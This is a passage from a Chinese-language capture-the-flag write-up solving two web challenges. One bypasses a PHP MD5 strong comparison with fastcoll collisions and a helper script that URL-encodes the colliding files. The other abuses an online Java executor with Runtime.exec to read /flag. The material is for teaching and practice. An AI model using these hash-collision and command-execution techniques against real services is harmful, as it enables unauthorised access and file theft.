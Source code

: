 ```php
}

```

工具：fastcoll

由代码可知，脚本通过

```
$master.$_POST["master1"]
```

将**MD5 master!**与post传入的**master1**和**master2**分别拼接后进行md5的强比较，要求拼接后的字符不相等且md5相等

工具使用方法：[教程](https://blog.csdn.net/m0_68483928/article/details/141252221)

md5转换php脚本：

```php
<?php 
function  readmyfile($path){
    $fh = fopen($path, "rb");
    $data = fread($fh, filesize($path));
    fclose($fh);
    return $data;
}
echo '二进制md5加密 '. md5( (readmyfile("1_msg1.txt")));

echo  'url编码 '. urlencode(readmyfile("1_msg1.txt"));

echo '二进制md5加密 '.md5( (readmyfile("1_msg2.txt")));

echo  'url编码 '.  urlencode(readmyfile("1_msg2.txt"));
```

*复制粘贴计算容易出问题*，故使用php脚本

计算结果删除掉MD5 master!后将结果post即可得到flag

### **[Week1] jvav**

显示在线执行java代码

写一个java脚本执行系统命令即可

官方题解：

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;

class demo{
    public static void main(String[] args) {
        try {
            Process process = Runtime.getRuntime().exec("cat /flag");
            BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            String line;
            while ((line = reader.readLine()) != null) {
                System.out.println(line);
            }
            process.waitFor();
            reader.close();
        } catch (Exception e) {
        }
    }
}
```
